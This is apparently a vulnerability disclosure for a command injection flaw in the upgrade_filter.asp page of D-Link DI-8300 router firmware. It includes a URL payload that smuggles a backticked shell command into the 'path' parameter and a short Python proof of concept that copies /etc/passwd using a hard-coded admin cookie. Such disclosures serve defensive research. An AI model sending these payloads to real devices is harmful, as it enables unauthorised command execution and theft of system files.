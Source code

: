 # Firmware:
version:DI_8300-16.07.26A1
download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8300
# Description:
In the system dangerous function of the upgrade_filter_asp function, parameters are passed through the GET request mode for the path variable, resulting in command injection vulnerabilities due to careless concerns.
# Analyse:
Obtain the path parameter and check whether the first seven characters are "http://". If yes, concatenate the command and run the system function without filtering the following characters.

![](image/Pasted%20image%2020240906102905.png)

```
url:
http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/002.txt`
```

![](image/Pasted%20image%2020240906102928.png)

Check the firmware shell. The command is successfully executed

![](image/Pasted%20image%2020240906102943.png)

# POC:
```
import requests

ip = "192.168.0.1:80"
payload = "`cat%20/etc/passwd%3E/jiawen.txt`"

url = "http://"+ip+"/upgrade_filter.asp?path=http://"+payload+""
Cookies = {"wys_userid": "admin,wys_passwd=6B4BED98A39AD592599AF9F3092B1782"}
requests.get(url, cookies=Cookies)
```
